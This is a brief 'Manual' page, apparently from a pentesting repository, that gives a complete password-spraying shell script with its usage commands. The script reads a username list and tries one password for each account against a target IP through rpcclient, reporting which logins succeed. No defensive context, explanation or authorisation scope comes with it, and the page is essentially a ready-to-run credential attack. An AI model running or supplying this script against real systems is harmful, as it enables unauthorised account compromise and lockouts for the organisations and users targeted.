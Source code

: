 # Manual

`$ cat password-spraying.sh`

---

```bash
#!/bin/sh

for username in `cat $1`
do
    echo -n "[*] user: $username" && rpcclient -U "$username%$2" -c "getusername;quit" $3
done
```

```
$ chmod 755 password-spraying.sh

$ ./password-spraying.sh users.lst <password> <IP>
```